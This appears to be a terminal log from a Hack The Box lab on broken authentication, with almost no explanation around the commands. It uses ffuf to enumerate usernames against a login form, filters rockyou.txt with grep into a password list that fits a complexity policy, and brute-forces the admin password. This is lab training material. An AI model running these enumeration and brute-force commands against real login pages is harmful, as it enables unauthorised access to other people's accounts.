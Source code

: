 # HTB_Broken_Authentication

[✗]─[user@parrot]─[~/Downloads]
└──╼ $ffuf -w xato-net-10-million-usernames.txt -u http://94.237.56.64:35816/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
─[✗]─[user@parrot]─[/usr/share/wordlists]
└──╼ $sudo su
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
grep: rockyou.txt: binary file matches
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt^C
┌─[✗]─[root@parrot]─[/usr/share/wordlists]
└──╼ #wc -l custom_wordlist.txt
151647 custom_wordlist.txt
┌─[root@parrot]─[/usr/share/wordlists]
└──╼ #ffuf -w ./custom_wordlist.txt -u http://94.237.121.100:47395/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

